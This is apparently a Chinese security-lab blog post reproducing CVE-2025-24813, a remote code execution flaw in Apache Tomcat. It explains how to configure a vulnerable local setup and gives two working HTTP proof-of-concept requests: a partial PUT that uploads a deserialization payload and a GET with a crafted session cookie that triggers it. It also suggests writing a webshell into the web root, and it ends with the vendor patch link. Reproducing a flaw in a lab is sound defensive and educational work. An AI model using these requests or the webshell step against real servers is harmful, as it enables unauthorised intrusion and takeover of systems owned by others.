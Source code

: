 #  【漏洞复现】Apache Tomcat 命令执行漏洞（CVE-2025-24813)   
 小翠网络安全实验室   2025-03-16 21:06  
  
漏洞影响范围  
```
9.0.0.M1 <= tomcat <= 9.0.98
10.1.0-M1 <= tomcat <= 10.1.34 
11.0.0-M1 <= tomcat <= 11.0.2
```  
  
漏洞环境下载  
```
//apache环境 
https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.98/bin/apache-tomcat-9.0.98-windows-x64.zip 
//反序列化库 
https://repo1.maven.org/maven2/commons-collections/commons-collections/3.2.1/commons-collections-3.2.1.jar
```  
  
环境配置  
  
1、apache环境需要借助java，安装java后，环境变量中添加系统变量  
```
JAVA_HOME 
C:\Program Files\Java\jdk-11 
JRE_HOME
C:\Program Files\Java\jre1.8.0_241
```  
  
2.修改  
context.xml、web.xml文件  
  
![0](https://mmbiz.qpic.cn/sz_mmbiz_png/W5qc66LWkvHQCfkVRbQ3hx6pxc7mWpTcQQuBicSRJLDjLstib5bxkxGMca39pes3oUpsGR5548anmotdsVfy977g/640?wx_fmt=png&from=appmsg "")  
  
来到根目录下，进入conf，先修改context.xml文件，在Context标签内新增配置：  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
<Manager className="org.apache.catalina.session.PersistentManager">        
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```  
  
再修改web.xml文件，添加内容如下：  
```
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```  
  
![0](https://mmbiz.qpic.cn/sz_mmbiz_png/W5qc66LWkvHQCfkVRbQ3hx6pxc7mWpTcwicBicqKxO33C3zlnicZAaWqfyp67CiaQuzVPFJaONnwiaMO9OKqYqhSe0A/640?wx_fmt=png&from=appmsg "")  
  
将Commons Collections 3.2.1.jar放入webapps/ROOT/WEB-INF/lib文件夹(没有lib目录就创建)。  
  
![0](https://mmbiz.qpic.cn/sz_mmbiz_png/W5qc66LWkvHQCfkVRbQ3hx6pxc7mWpTcRtdd97qSVoz3J4g2jyXtHw7e2dwDS1B9E0fF9YgBNWzF7ZRmfkE4WQ/640?wx_fmt=png&from=appmsg "")  
  
win环境遇到乱码可以修改conf目录下的logging.properties，将其java.util.logging.ConsoleHandler.encoding的值改为GBK  
  
![0](https://mmbiz.qpic.cn/sz_mmbiz_png/W5qc66LWkvHQCfkVRbQ3hx6pxc7mWpTctcY7gNKgGHUoIBYRC7cIiapBXyYxuwNCGG7E8whNGvicsB4p58nng9qw/640?wx_fmt=png&from=appmsg "")  
  
修改server.xml修改默认端口号  
  
![0](https://mmbiz.qpic.cn/sz_mmbiz_png/W5qc66LWkvHQCfkVRbQ3hx6pxc7mWpTch8wTU3RI1xrnKBdED6MHY3gyb95wogwWSnKrS9m4KuVx8nmaoa58WA/640?wx_fmt=png&from=appmsg "")  
  
运行apache-tomcat-9.0.98\bin的  
startup.bat文件，环境启动成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/W5qc66LWkvHQCfkVRbQ3hx6pxc7mWpTc2O1sgKlUrASONydr1FS5T3iaahKaGQub6R9dLUzuNBiaQZ2icEhpicQnkw/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现  
  
1.使用Yakit的【反连】功能，【Yso-Java Hack】快速生成一个利用payload：  
  
![0](https://mmbiz.qpic.cn/sz_mmbiz_png/W5qc66LWkvHQCfkVRbQ3hx6pxc7mWpTcWmQWw4YNgxptUtEjXkIEDP6RlEBJ7uAicVJUib42T9Wgl6bdzM9hRRFw/640?wx_fmt=png&from=appmsg "")  
  
2.POC1  
  
请求出现409表示利用成功  
  
Content-Length: 1000和Content-Range: bytes 0-1000要保持一致  
```
PUT /xxxxx/session HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 1000
Content-Range: bytes 0-1000/1200

{{base64dec(反序列化文件内容)}}
```  
  
![0](https://mmbiz.qpic.cn/sz_mmbiz_png/W5qc66LWkvHQCfkVRbQ3hx6pxc7mWpTc4ymIvEYZm0HTso4aHGtKwCawxZ8PF46GGlmibEcVd8NOdQJMWo270Zw/640?wx_fmt=png&from=appmsg "")  
  
apache-tomcat-9.0.98\work\Catalina\localhost\ROOT会生成临时文件，其中【xxxxx】是自定义名字，可以任意修改  
  
![0](https://mmbiz.qpic.cn/sz_mmbiz_png/W5qc66LWkvHQCfkVRbQ3hx6pxc7mWpTcfBYOFsLZ0UxkWGZ1GE2Z4PDz2Ca6H6nscAZpDXf4pfoNuGSf6yFqXQ/640?wx_fmt=png&from=appmsg "")  
  
3.利用POC2:  
```
GET / HTTP/1.1
Host: 127.0.0.1:8080
Cookie: JSESSIONID=.xxxxx
```  
  
请求上传的文件名，响应500，然后弹出计算器，复现成功（响应200的情况下，需要重新请求）  
  
![0](https://mmbiz.qpic.cn/sz_mmbiz_png/W5qc66LWkvHQCfkVRbQ3hx6pxc7mWpTcjx6c1IYGUAQdjdhcuJRuoDm3p9vbicyvIfMKp2icS5UpCEj2tRJQhh6w/640?wx_fmt=png&from=appmsg "")  
  
补充：写入目录apache-tomcat-9.0.98\webapps\ROOT可以上传webshell，此操作仅供学习使用，建议中午操作，因为早晚要进去喝茶。  
```
apache-tomcat-9.0.98\webapps\ROOT
```  
  
![0](https://mmbiz.qpic.cn/sz_mmbiz_png/W5qc66LWkvHQCfkVRbQ3hx6pxc7mWpTcx5SQcbMibsDl1s4aSC1NwyfxvaNeJcHfxZMuzFt7icrthwnNAamm1H7w/640?wx_fmt=png&from=appmsg "")  
  
修复方案  
  
Apache基金会官方已发布漏洞公告，可下载补丁更新：  
https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq  
  
  
